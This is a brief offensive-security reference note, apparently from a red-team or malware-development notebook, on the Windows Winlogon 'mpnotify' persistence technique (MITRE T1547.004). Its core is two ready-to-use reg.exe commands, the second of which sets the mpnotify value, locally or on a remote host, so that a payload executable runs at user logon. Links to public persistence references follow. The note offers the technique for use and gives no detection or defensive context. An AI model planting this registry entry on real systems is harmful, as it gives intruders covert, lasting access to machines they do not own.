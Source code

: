 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1547-004
  - windows
---
```

# WinLogon

## 01 - Command Prompt

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v mpnotify
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /t REG_SZ /v mpnotify /d "C:\path\to\payload.exe" /f
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Persistence/Windows/Autostart Locations]]

### Persistence Info

- [Persistence Info: MPNotify](https://persistence-info.github.io/Data/mpnotify.html)

### Red Team Notes

- [Red Team Notes: Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper)